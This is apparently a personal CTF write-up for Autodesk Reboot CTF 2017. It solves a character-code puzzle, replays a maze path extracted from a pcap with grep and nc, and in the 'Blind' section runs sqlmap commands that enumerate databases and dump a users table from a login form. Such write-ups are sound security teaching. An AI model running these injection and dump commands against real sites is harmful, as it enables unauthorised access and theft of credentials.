




## Autodesk Reboot CTF 2017

This CTF is more about resverse-engineering which i'm not good at. But these challenges are interesting.

# All Me to Introduce Myself

The challenge is as easy as ... compiling the python code to get the flag:
`python3 -c "for i in [102, 108, 97, 103, 123, 119, 101, 108, 99, 111, 109, 101, 95, 112, 97, 114, 116, 105, 99, 105, 112, 97, 110, 116, 115, 33, 125]: print(chr(i), end='')"`

# uhhMAZEin

We are provided with a pcap file and a nc: `nc challenges.ctfd.io 30035`

**Recon:** When I see PCAP, I also see package-sniffing and Wireshark is a useful toy for such. By nc-ing to the above, I'm asked to enter the list of sequences (LEFT, RIGHT, STRAIGHT). It may be obtained from the PCAP file.

Upon opening the file using Wireshark, we can see a lot of traffic on TCP. To filter out garbage, I use this filter: `tcp and not tcp.len==0` to remove the package with no data and show only the package with response.

Now we need to show all the package's content in one view. To do that, right click on any package and select `Streaming > TCP Stream`. 

Now we got all the message. You can type them manually but since i'm I save the response to package.txt and pipe the grep to the nc above:
`(grep 'LEFT, RIGHT, or STRAIGHT:' package.txt | sed 's/^.*: //') | nc challenges.ctfd.io 30035`

We get our flag: 
> flag{like_finding_a_needle_in_a_haystack_in_a_maze}

# Bye-Byte

boo boo

# Blind

We are provided with an URL: `http://68.183.148.46:8001`

**Recon:** Upon visiting website, I see there is a simple signin form. I check with simple query and could signin. But then there is a message saying that the flag is the password. I need to do blind injection anyway and sqlmap is a useful tool for this occasion.

First, I run sqlmap with simple command:
`sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p" --method POST --dbs`

We got some useful information:

Here is the final query to get the flag:
`sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p"  --method POST -D webapp -T users --dump`

ANd here is our flag:
> flag{h4ck3r5_cr4ck3r5_4nd_5ql_1nj3c710n}